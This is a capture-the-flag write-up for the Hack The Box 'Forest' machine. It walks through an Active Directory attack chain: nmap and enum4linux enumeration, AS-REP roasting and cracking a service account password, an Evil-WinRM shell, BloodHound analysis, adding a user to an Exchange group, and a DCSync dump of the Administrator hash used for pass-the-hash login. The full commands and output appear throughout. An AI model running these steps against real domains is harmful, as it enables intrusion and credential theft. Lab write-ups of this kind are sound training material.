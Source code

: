 ```yaml
---
layout: post
title: "Forest"
---
```


# Forest writeup

Forest is an awesome Windows-based machine, difficulty was set as “Easy”, user score is 4.6.  
This machine is all about Active Directory exploitation.

---

## Content table
- Enumeration
- Exploitation with Impacket and Evil-WinRM
- Privilege escalation with BloodHound and Impacket
- Links

---

## Enumeration
Start with nmap scan:
```
nmap -sS -sV -p- 10.10.10.161PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Continue with `enum4linux`:

```
enum4linux -a forest.htb
```

Output is massive, but contain some useful information:

- `FOREST.htb.local` is the domain controller
- `EXCH01.htb.local` is an Exchange server
-  Users sebastian, santi, andy, lucinda, mark and svc-alfresco

---

## Exploitation

AS-REP Roasting is an attack against Kerberos for user accounts that do not require preauthentication. During preauthentication, a user will enter their password which will be used to encrypt a timestamp and then the domain controller will attempt to decrypt it and validate that the right password was used and that it is not replaying a previous request.
If a user is configured to not require Kerberos pre-authentication, anyone can send a request (AS_REQ) to the KDC and receive a response (AS_REP). The response contains an encrypted chunk of data related to that user that can be cracked offline to retrieve the user password. This can be automatized with tools like Impacket GetNPUsers.py:

```
GetNPUsers.py htb.local/ -usersfile users.txt -format john
```

We get a hash for a service account `svc-alfresco`, now it’s time to crack it with `john`:

```
john --wordlist=./rockyou.txt hash.txt
```

The password is `s3rvice`.

As we got in nmap results 5985 port is open which used for windows remote management we can use `Evil-WinRM` to pop up a shell:

```
evil-winrm -u svc-alfresco -p s3rvice -I 10.10.10.161 -s ‘BloodHound/Ingestors/’


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The `-s` flag here is standing for importing scripts, you can also use `-e` to import .exe files (to run the mimikatz, for example). That flag will help in Privilege Escalation phase.

---

## Privilege Escalation


User `svc-alfresco` do not have any write permissions, but as we used `-s` flag for `Evil-WinRM` it’s not needed:
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> menu
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-SharpHound
```
Evil-WinRM also have a great feature that allows you to download a .zip file from a SharpHound:
```
download remote_filename` or `download remote_filename destination_filename
```

Run a BloodHound and drag-and-drop the .zip from a SharpHound. Now we got a valid path for privileged escalation to Domain Admin.
As a service account `svc-alfresco` is the member of `Account Operators` and can create new accounts with right in `Exchange Windows Permissions` group.

Creating a new user. As Evil-WinRM is running the PowerShell by default, we can use both CMD’s and PS’s ways to do so:

```
net user z3v5 p@ssw0rd /domain /add
net group ‘Exchange Windows Permissions’ z3v5 /domain  /add
```

OR

```
$pass = ConvertTo-SecureString "p@ssw0rd" -AsPlainText -Force
New-ADUser z3v5 -AccountPassword $pass -Enabled $True
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members z3v5
```

New user `z3v5` is a part of the `Exchange Windows Permissions` group now and that’s mean we can perform `DCSync` attack now. `DCSync` right allows an attacker to simulate the behavior of a Domain Controller and it has two stages:
- Discover the Domain Controller in the provided domain
- Request the Domain Controller to replicate the user credentials

To automate that we can use `secretsdump.py` from `Impacket`:
```
secretsdump.py z3v5:p@ssw0rd@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
Plenty of different options what to do with the hash of the `Administrator` account, but I followed one the `Evil-WinRM`:
```
evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

## Links
[Impacket](https://github.com/SecureAuthCorp/impacket)  
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)  
[BloodHound](https://github.com/BloodHoundAD/BloodHound)
